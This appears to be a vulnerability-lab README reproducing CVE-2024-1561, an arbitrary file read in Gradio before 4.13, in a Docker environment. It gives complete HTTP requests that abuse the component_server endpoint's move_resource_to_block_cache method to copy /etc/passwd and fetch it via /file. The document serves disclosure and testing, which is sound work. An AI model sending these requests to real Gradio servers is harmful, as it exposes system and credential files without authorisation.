



# Gradio Arbitrary File Read (CVE-2024-1561)

[中文版本(Chinese version)](README.zh-cn.md)

Gradio is a Python library that enables users to rapidly build web-based interfaces for machine learning models without writing any front-end code.

In Gradio versions prior to 4.13, the `component_server` endpoint allows attackers to invoke arbitrary methods of the `Component` class. By abusing the `move_resource_to_block_cache` method, an attacker can copy any file from the server to a temporary directory and then retrieve its contents, leading to arbitrary file read.

References:

- <https://github.com/gradio-app/gradio/pull/6884>
- <https://nvd.nist.gov/vuln/detail/CVE-2024-1561>

## Environment Setup

Execute the following command to start an application written by Gradio 4.12.0:

```
docker compose up -d
```

After the environment is started, authentication is not enabled by default. You can access the application through `http://your-ip:7860`.

## Vulnerability Reproduction

First, access the `/config` endpoint to obtain a component's `id` value, such as `3`.

```
GET /config HTTP/1.1
Host: 127.0.0.1:7860
```



Next, use the `move_resource_to_block_cache` method to copy `/etc/passwd` to a temporary directory. The response will include the temporary file path.

```
POST /component_server HTTP/1.1
Host: 127.0.0.1:7860
Content-Type: application/json

{
  "component_id": "3",
  "data": "/etc/passwd",
  "fn_name": "move_resource_to_block_cache",
  "session_hash": "aaaaaaaaaaa"
}
```



Finally, access the `/file` endpoint with the returned path to read the file content.

```
GET /file=/tmp/gradio/916eb712d668cf14a35adf8179617549780c4070/passwd HTTP/1.1
Host: 127.0.0.1:7860

```



If successful, the contents of `/etc/passwd` will be displayed, demonstrating arbitrary file read.
